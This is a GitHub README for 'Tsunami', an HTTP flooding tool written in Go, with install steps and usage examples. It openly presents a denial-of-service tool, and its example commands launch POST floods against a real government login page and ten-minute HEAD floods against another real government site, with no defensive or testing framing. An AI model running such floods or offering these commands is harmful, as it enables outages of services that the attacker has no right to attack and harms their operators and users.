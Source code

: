 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Examples
### Low volume POST flood lasting forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High volume HEAD flood lasting for 10 minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - Custom headers
 - Pretty display of attack stats
 - ???
